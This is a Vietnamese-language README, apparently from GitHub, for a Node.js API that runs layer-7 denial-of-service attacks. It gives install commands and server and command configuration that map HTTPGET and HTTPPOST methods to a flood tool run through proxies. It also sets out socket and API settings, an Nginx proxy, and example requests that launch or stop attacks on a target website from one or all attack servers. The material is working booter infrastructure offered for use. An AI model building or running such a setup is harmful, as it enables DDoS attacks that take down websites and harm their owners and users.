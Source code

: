 <h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h1>Cài đặt:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo yum -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API


### Proxy đảo ngược

Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Thay thế `'http://backend:3000/api/attack'` bằng URL máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu GET tới API bằng các trường bắt buộc

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=HTTPGET&server=alpha`

Bạn có thể đặt `&server=all` để khởi chạy tới tất cả các máy chủ

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API sử dụng `&method=stop`

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=stop&server=alpha`


